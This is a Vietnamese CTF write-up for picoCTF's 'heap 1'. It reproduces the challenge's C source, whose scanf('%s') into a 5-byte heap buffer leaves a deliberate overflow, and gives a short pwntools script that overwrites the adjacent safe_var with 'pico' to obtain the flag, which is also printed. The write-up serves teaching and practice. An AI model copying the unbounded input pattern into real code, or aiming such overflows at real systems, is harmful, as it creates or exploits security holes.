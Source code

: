 # Heap 1
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.

Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta thấy nếu nhập số `4` thì hàm `check_win()` sẽ được gọi. Nhìn vào hàm `check_win()`, ta thấy:

``` c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Ta thấy hàm sẽ in flag nếu `safe_var` bằng với chuỗi `pico`. Ta có `safe_var` được khởi tạo ban đầu là `bico`. Ta sẽ cố gắng làm cho `save_var` bằng với chuỗi `pico`.

Nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (ở lựa chọn số 2).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/a8cd71d5-ad42-422d-a695-003517818a88)

Ở địa chỉ `0x64174383d6b0` đang lưu trữ chuỗi pico (input được nhập vào sẽ lưu trữ từ đây). Và địa chỉ `safe_var` trỏ đến là `0x64174383d6d0` đang lưu trữ chuỗi bico. Ta thấy offset là 32 bytes, ta sẽ thử nhập 32 kí tự `a` và nhập chuỗi pico ở cuối.

![image](https://github.com/user-attachments/assets/ce1ff2f7-278b-4f44-9661-804d938de6b1)

Ta thấy rằng vùng nhớ trên heap mà `safe_var` trỏ đến đã bị ghi đè thành chuỗi `pico`.

Thực hiện print flag (số 4)

![image](https://github.com/user-attachments/assets/394f4402-341b-404f-95ca-ac8a792be744)

Tôi `WIN` =))))))). Và tôi có file exploit như sau:

``` python 
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 57638)
write = b'2'
flag = b'4'
payload = 32 * 'a'
payload += "pico"
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{starting_to_get_the_hang_21306688}
```
